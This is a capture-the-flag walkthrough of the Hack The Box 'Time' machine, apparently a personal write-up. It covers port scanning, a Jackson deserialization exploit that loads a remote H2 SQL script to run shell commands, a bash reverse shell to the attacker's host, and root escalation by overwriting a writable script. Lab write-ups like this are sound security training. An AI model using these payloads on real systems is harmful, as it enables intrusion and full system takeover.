

# Hack the box - Time

IP: 10.10.10.204

# Enumeration
```
┌──(kali㉿kali)-[~/htb-time]
└─$ nmap -A  10.10.10.214        
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-28 15:19 EST
Nmap scan report for 10.10.10.214
Host is up (0.040s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.80 seconds
```

## Json beautifier web service
Try with {"a":"b"}:


Try with something that might return an error, not a json:


Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object

entry: ["probando"]
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.InvalidTypeIdException: Could not resolve type id 'probando' as a subtype of [simple type, class java.lang.Object]: no such class found

## Java Deserialization Cheat Sheet
googling and investigating with the exception...

https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet

https://raw.githubusercontent.com/mbechler/marshalsec/master/marshalsec.pdf

https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/

https://medium.com/abn-amro-developer/java-deserialization-from-discovery-to-reverse-shell-on-limited-environments-fa9d8417c99b

https://github.com/frohoff/ysoserial

https://github.com/federicodotta/Java-Deserialization-Scanner

https://github.com/jault3/jackson-databind-exploit


--> https://blog.doyensec.com/2019/07/22/jackson-gadgets.html
--> https://github.com/jas502n/CVE-2019-12384

## RCE
file inject.sql:
```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.154/1114 0>&1')
```

python http server:
```
┌──(kali㉿kali)-[~/htb-time/files]
└─$ python -m SimpleHTTPServer                                                                              
Serving HTTP on 0.0.0.0 port 8000 ...

```

```
┌──(kali㉿kali)-[~]
└─$ nc -l -p 1111

```

in web:
```
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.154:8000/inject.sql'"}]
```

reverse shell:
```
┌──(kali㉿kali)-[~]
└─$ nc -l -p 1111
bash: cannot set terminal process group (890): Inappropriate ioctl for device
bash: no job control in this shell
pericles@time:/var/www/html$ cd /home
cd /home
pericles@time:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root     root     4096 Oct  2 13:45 .
drwxr-xr-x 20 root     root     4096 Jan  8 19:39 ..
drwxr-xr-x  7 pericles pericles 4096 Oct 23 09:45 pericles
pericles@time:/home$ cd pericles
cd pericles
pericles@time:/home/pericles$ ls -la
ls -la
total 44
drwxr-xr-x 7 pericles pericles 4096 Oct 23 09:45 .
drwxr-xr-x 3 root     root     4096 Oct  2 13:45 ..
lrwxrwxrwx 1 root     root        9 Oct  1 15:05 .bash_history -> /dev/null
-rw-r--r-- 1 pericles pericles  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 pericles pericles 3771 Feb 25  2020 .bashrc
drwx------ 2 pericles pericles 4096 Sep 20 13:53 .cache
drwx------ 3 pericles pericles 4096 Oct 22 17:45 .config
drwx------ 2 pericles pericles 4096 Oct 23 06:53 .gnupg
lrwxrwxrwx 1 root     root        9 Oct  1 15:07 .lhistory -> /dev/null
drwxrwxr-x 3 pericles pericles 4096 Sep 29 12:52 .local
-rw-r--r-- 1 pericles pericles  807 Feb 25  2020 .profile
drwxr-xr-x 3 pericles pericles 4096 Oct  2 13:20 snap
-r-------- 1 pericles pericles   33 Jan  8 14:46 user.txt
pericles@time:/home/pericles$ cat user.txt
cat user.txt
b1c56c2ea1794fee644c54d80bcaadb4

```

## Linpeas
```
[+] .sh files in path
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#script-binaries-in-path                                                                                                                                                    
/usr/bin/gettext.sh                                                                                                                                                                                                                        
You own the script: /usr/bin/timer_backup.sh
/usr/bin/rescan-scsi-bus.sh

```
```
[+] Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                                                                                                                             
/dev/mqueue                                                                                                                                                                                                                                
/dev/shm
/dev/shm/payloadV0BmEi
/dev/shm/payloadnwfBN8
/home/pericles
/opt/json_project/classpath
/opt/json_project/classpath/h2-1.4.199.jar
/opt/json_project/classpath/jackson-annotations-2.9.8.jar
/opt/json_project/classpath/jackson-core-2.9.8.jar
/opt/json_project/classpath/jackson-databind-2.9.8.jar
/opt/json_project/classpath/logback-core-1.3.0-alpha5.jar
/opt/json_project/parse.rb
/run/lock
/run/lock/apache2
/run/screen
/run/screen/S-pericles
/snap/core18/1705/run/lock
/snap/core18/1705/tmp
/snap/core18/1705/var/tmp
/snap/core18/1885/tmp
/snap/core18/1885/var/tmp
/tmp
/tmp/hsperfdata_pericles
/tmp/hsperfdata_pericles/52686
/tmp/hsperfdata_pericles/53429
/tmp/tmux-1000
/usr/bin/timer_backup.sh
/var/crash
/var/lib/php/sessions
/var/tmp
/var/www/html


```

```
[+] Interesting GROUP writable files (not in Home) (max 500)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                                                                                                                             
  Group pericles:                                                                                                                                                                                                                          
/usr/bin/timer_backup.sh          
```

--> /usr/bin/timer_backup.sh   

```
pericles@time:/var/www/html$ cd /usr/bin
cd /usr/bin
pericles@time:/usr/bin$ echo 'bash -i >& /dev/tcp/10.10.14.154/1114 0>&1' > timer_backup.sh
< /dev/tcp/10.10.14.154/1114 0>&1' > timer_backup.sh
pericles@time:/usr/bin$ cat timer_backup.sh
cat timer_backup.sh
bash -i >& /dev/tcp/10.10.14.154/1114 0>&1
pericles@time:/usr/bin$ ./timer_backup.sh
./timer_backup.sh
./timer_backup.sh: connect: Connection refused
./timer_backup.sh: line 1: /dev/tcp/10.10.14.154/1114: Connection refused
pericles@time:/usr/bin$ ^[[A
./timer_backup.sh
./timer_backup.sh: connect: Connection refused
./timer_backup.sh: line 1: /dev/tcp/10.10.14.154/1114: Connection refused
pericles@time:/usr/bin$ ^[[A
./timer_backup.sh
./timer_backup.sh: connect: Connection refused
./timer_backup.sh: line 1: /dev/tcp/10.10.14.154/1114: Connection refused
```

```
┌──(kali㉿kali)-[~]
└─$ nc -l -p 1114
bash: cannot set terminal process group (94966): Inappropriate ioctl for device
bash: no job control in this shell
root@time:/# cat /root/root.txt
cat /root/root.txt
ae81fc5cf251cadfb2441bcca27e7e5b
root@time:/# exit
```